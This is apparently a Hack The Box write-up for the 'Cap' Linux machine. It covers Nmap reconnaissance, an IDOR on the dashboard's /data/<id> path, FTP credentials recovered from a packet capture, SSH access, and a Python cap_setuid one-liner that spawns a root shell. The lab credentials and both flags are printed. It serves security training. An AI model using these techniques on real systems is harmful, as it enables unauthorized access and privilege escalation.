






# Hack The Box — Cap


---

# Machine Information

| Name | Difficulty | Platform | OS |
|-----|-----|-----|-----|
| Cap | Easy | Hack The Box | Linux |

---

# Attack Path

1. Nmap scan reveals FTP, SSH and HTTP services

2. Web dashboard allows downloading PCAP captures

3. IDOR vulnerability exposes other capture files

4. PCAP analysis reveals FTP credentials

5. SSH access obtained as user nathan

6. linPEAS reveals Python binary with cap_setuid capability

7. Python used to escalate privileges to root


---

# Reconnaissance

The first step was performing a service enumeration using **Nmap**.

```sudo nmap -sV -sC -T5 -A 10.129.10.156```




The scan revealed the following services:

| Port | Service | Version |
|----|----|----|
|21|FTP|vsftpd 3.0.3|
|22|SSH|OpenSSH 8.2p1|
|80|HTTP|Gunicorn Web Server|

The HTTP service hosted a **Security Dashboard** web application.

---

# Web Enumeration

Accessing the web server revealed a dashboard that displays **network traffic statistics**.



The application allowed users to download **PCAP files** containing captured traffic.

The URL contained a numeric parameter: /data/<id>

Example: http://10.129.10.156/data/5

By modifying the ID to another value, it was possible to access **other captures**.

Example: http://10.129.10.156/data/0


This behavior indicates an **Insecure Direct Object Reference (IDOR)** vulnerability.

---

# PCAP Analysis

After downloading the PCAP file, it was opened in **Wireshark**.

Inside the capture, FTP traffic revealed plaintext credentials.



Credentials discovered:

USER: nathan
PASS: Buck3tH4TF0RM3!


---

# Initial Access

Using the discovered credentials, SSH access was obtained.

```ssh nathan@10.129.10.156```

After logging in, the **user flag** was retrieved.

```cat user.txt```



```16454aadc23615650b36d19fe560d2cd```


---

# Privilege Escalation

To identify possible privilege escalation vectors, **linPEAS** was executed.

```scp linpeas.sh nathan@10.129.10.156:/tmp/```


linPEAS revealed an interesting capability on the Python binary.



```/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip```


The **cap_setuid capability** allows the process to change its effective UID.

This can be abused to spawn a root shell.

---

# Exploiting the Capability

Using Python, the UID can be changed to **0 (root)**.

```/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```


This successfully spawned a root shell.

---

# Root Access

After gaining root privileges, the root flag was retrieved.

```cd /root```
```cat root.txt```




```170f052d3f6be9b50f63a47f8d88421b```

---

# Flags

### User Flag

16454aadc23615650b36d19fe560d2cd

### Root Flag

170f052d3f6be9b50f63a47f8d88421b


---

# Vulnerabilities Identified

### Insecure Direct Object Reference (IDOR)

The web application allowed users to access PCAP captures using a sequential ID.

Example: ```/data/5```

By modifying the ID it was possible to access other captures: ```/data/0```


Impact:

- Unauthorized access to internal packet captures
- Credential disclosure

---

# Tools Used

- Nmap
- Wireshark
- SSH
- linPEAS
- Python

---

# Key Takeaways

This machine demonstrates important security concepts:

- IDOR vulnerabilities can expose sensitive internal data
- Packet captures may contain plaintext credentials
- Linux capabilities can create dangerous privilege escalation vectors
- Proper privilege and file permission management is critical

---

# Author

GitHub: https://github.com/ninjaa-exe
